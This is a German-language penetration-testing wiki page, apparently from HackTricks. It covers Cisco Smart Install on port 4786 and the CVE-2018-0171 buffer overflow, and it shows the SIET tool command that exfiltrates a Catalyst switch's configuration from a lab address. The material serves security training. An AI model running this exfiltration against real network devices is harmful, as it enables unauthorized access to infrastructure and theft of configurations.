 # 4786 - Cisco Smart Install

{{#include ../banners/hacktricks-training.md}}


## Grundlegende Informationen

**Cisco Smart Install** ist ein von Cisco entwickeltes Tool zur Automatisierung der Erstkonfiguration und des Ladens eines Betriebssystemimages für neue Cisco-Hardware. **Standardmäßig ist Cisco Smart Install auf Cisco-Hardware aktiv und verwendet das Transportprotokoll TCP mit der Portnummer 4786.**

**Standardport:** 4786
```
PORT      STATE  SERVICE
4786/tcp  open   smart-install
```
## **Smart Install Exploitation Tool**

**Im Jahr 2018 wurde eine kritische Schwachstelle, CVE-2018–0171, in diesem Protokoll gefunden. Das Bedrohungsniveau liegt bei 9,8 auf der CVSS-Skala.**

**Ein speziell gestaltetes Paket, das an den TCP/4786-Port gesendet wird, an dem Cisco Smart Install aktiv ist, löst einen Pufferüberlauf aus, der es einem Angreifer ermöglicht:**

- das Gerät zwangsweise neu zu starten
- RCE aufzurufen
- Konfigurationen von Netzwerkgeräten zu stehlen.

**Das** [**SIET**](https://github.com/frostbits-security/SIET) **(Smart Install Exploitation Tool)** wurde entwickelt, um diese Schwachstelle auszunutzen, es ermöglicht Ihnen, Cisco Smart Install zu missbrauchen. In diesem Artikel zeige ich Ihnen, wie Sie eine legitime Konfigurationsdatei für Netzwerkhardware lesen können. Die Konfigurationsexfiltration kann für einen Pentester wertvoll sein, da er über die einzigartigen Merkmale des Netzwerks lernt. Und das wird das Leben erleichtern und neue Angriffsvektoren finden.

**Das Zielgerät wird ein „lebendiger“ Cisco Catalyst 2960 Switch sein. Virtuelle Images haben kein Cisco Smart Install, daher können Sie nur auf der echten Hardware üben.**

Die Adresse des Ziel-Switches ist **10.10.100.10 und CSI ist aktiv.** Laden Sie SIET und starten Sie den Angriff. **Das -g Argument** bedeutet Exfiltration der Konfiguration vom Gerät, **das -i Argument** ermöglicht es Ihnen, die IP-Adresse des verwundbaren Ziels festzulegen.
```
~/opt/tools/SIET$ sudo python2 siet.py -g -i 10.10.100.10
```
<figure><img src="../images/image (773).png" alt=""><figcaption></figcaption></figure>

Die Switch-Konfiguration **10.10.100.10** wird im **tftp/**-Ordner sein

<figure><img src="../images/image (1116).png" alt=""><figcaption></figcaption></figure>


{{#include ../banners/hacktricks-training.md}}
